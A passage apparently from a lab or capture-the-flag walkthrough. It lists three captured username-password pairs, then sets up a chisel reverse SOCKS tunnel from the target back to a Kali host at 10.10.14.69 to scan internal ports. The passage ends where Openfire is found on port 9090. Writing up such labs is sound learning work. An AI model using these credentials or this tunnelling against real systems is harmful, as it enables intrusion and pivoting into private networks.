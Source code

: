 alexanderk - HotP!fireguard'

claudias - 007poiuytrewq

blakeb - ThisCanB3typedeasily1@

- We can see a lot of ports running locally:

![image18](../resources/27a9627d920e420b9d72291a846a57d9.png)

<u>Upload chisel</u>

- On Kali:

```bash
./chisel server -p 8888 --reverse
```

- On target:

```bash
.\chisel.exe client 10.10.14.69:8888 R:socks &

proxychains nmap 127.0.0.1 -sT

```

![image19](../resources/1ee8bdc25db744b796457b60efa99f6d.png)

- OpenFire is running locally and Openfire admin console runs on port 9090:
